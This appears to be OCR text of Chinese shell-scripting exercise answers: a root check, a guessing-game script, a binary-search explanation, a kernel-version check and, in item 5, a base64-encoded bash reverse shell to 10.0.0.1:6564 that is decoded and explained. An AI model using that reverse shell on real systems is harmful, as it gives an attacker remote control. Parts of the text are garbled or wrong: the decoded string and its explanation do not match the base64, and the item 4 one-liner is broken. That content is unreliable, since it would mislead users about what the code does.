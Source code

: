 1.  [ "$(id -u)" -eq 0 ] && echo "hi, root" || echo "$(whoami)"

2.  #!/bin/bash
    secret_num=$(( RANDOM % 20 + 1 ))
    guesses=0
    while (( guesses < 5 )); do
        # 提示用户输入猜测值
        read -p "请输入猜测值（1-20）: " guess
        # 检查用户输入是否为数字
        if [[ ! $guess =~ ^[0-9]+$ ]]; then
            echo "输入无效，请输入数字。"
            continue
        fi
        # 判断猜测值与随机数字的关系
        if (( guess < secret_num )); then
            echo "猜小了。"
        elif (( guess > secret_num )); then
            echo "猜大了。"
        else
            echo "猜中啦！"
            break
        fi
        # 增加猜测次数
        guesses=$(( guesses + 1 ))
    done
    
    if (( guesses == 5 )); then
        echo "很遗憾，你没有猜中。正确答案是 $secret_num。"
    fi

3   初始时，我们可以选择中间值作为第一次的猜测，即猜测值为 500（因为 (0+1000)/2 = 500）。这是因为范围是0到1000，所以中间值500是一个合理的起始点，将搜索范围一分为二。

  如果猜测的数字与目标数字相等，那么我们猜中了，猜测次数为1。

如果猜测的数字小于目标数字，那么目标数字只可能在较大的一半范围内，即500到1000之间。我们可以继续使用二分查找算法，在这个范围内再次猜测中间值，比如750（因为 (500+1000)/2 = 750）。

如果猜测的数字大于目标数字，那么目标数字只可能在较小的一半范围内，即0到500之间。我们可以继续使用二分查找算法，在这个范围内再次猜测中间值，比如250（因为 (0+500)/2 = 250）。

我们可以根据上面的步骤不断地缩小搜索范围，每次都将搜索范围缩小一半，直到猜中目标数字为止。

根据二分查找算法的性质，每次猜测都可以将搜索范围缩小一半，所以我们最多只需要进行 log2(1000) ≈ 10 次猜测，就可以在最坏情况下猜中目标数字。因此，至少要猜10次。这是一种最优化的策略，可以在最少的猜测次数内找到正确答案。

4. string=$(uname -r) | version=$(echo "$string -r" | cut -d '-' -f 1) && [[ $version > 5.4 ]] && echo "yes" || echo "no"

5. echo "MDwmMTk2O2V4ZWMgMTk2PD4vZGV2L3RjcC8xMC4wLjAuMS82NTY0OyBiYXNoIDwmMTk2ID4mMTk2IDI+JjE5Ng==" | base64 -d
   等于  8|196;exec 196<>/dev/tcp/10.0.0.1/6564; bash <&196 >&196 2>&196
Shell 的方式，可以用于与远程主机建立连接并在远程主机上执行 Bash 命令。下面是详细的解码过程：

使用 echo 命令将编码后的字符串输出到标准输入。
使用 base64 -d 命令对输入的字符串进行解码。
解码后得到明文字符串 8|196;exec 196<>/dev/tcp/10.0.0.1/6564; bash <&196 >&196 2>&196。
这个明文字符串是一个反向连接 Shell 的命令，它包含以下几个部分：

8|196;：将文件描述符 196 与标准输入（文件描述符 0）和标准输出（文件描述符 1）以及标准错误输出（文件描述符 2）关联。
exec 196<>/dev/tcp/10.0.0.1/6564;：使用 exec 命令将文件描述符 196 关联到 /dev/tcp/10.0.0.1/6564，即远程主机的 IP 地址为 10.0.0.1，端口号为 6564，建立反向连接。
bash <&196 >&196 2>&196：将文件描述符 196 作为输入重定向到 Bash，并将标准输出和标准错误输出都重定向到文件描述符 196，从而将 Shell 的输入输出与远程主机建立的连接关联起来，实现反向连接 Shell。
